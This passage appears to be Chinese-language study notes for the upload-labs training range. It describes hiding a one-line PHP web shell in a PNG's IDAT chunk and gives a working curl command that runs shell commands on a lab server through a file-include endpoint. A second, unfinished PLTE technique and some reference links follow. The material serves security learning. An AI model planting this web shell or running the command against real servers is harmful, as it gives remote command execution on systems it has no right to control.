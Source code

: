 ## png

一个现成的png，原理是IDAT，内容是

```
<?=$_GET[0]($_POST[1]);?>
```

图片如下

![get-0-post-1](upload-labs学习笔记/get-0-post-1.png)

用的办法比较复杂，需要使用这条命令

```
curl -i -X POST "http://192.168.189.128/upload/include.php?file=18200.png&0=shell_exec" -d "1=dir" --output cc.txt
```

解释一下，就是向目标`http://192.168.189.128/upload/include.php?file=18200.png`，把目标当成php包含，然后传递GET[0]=shell_exec，POST[1]=dir这两个参数，结果保存到本地cc.txt中

![image-20210120223241806](upload-labs学习笔记/image-20210120223241806.png)

***



另一个原理是PLTE，内容是phpinfo

不知道怎么改



相关文章

https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

https://www.cnblogs.com/forforever/p/13191999.html

https://xz.aliyun.com/t/2657#toc-13
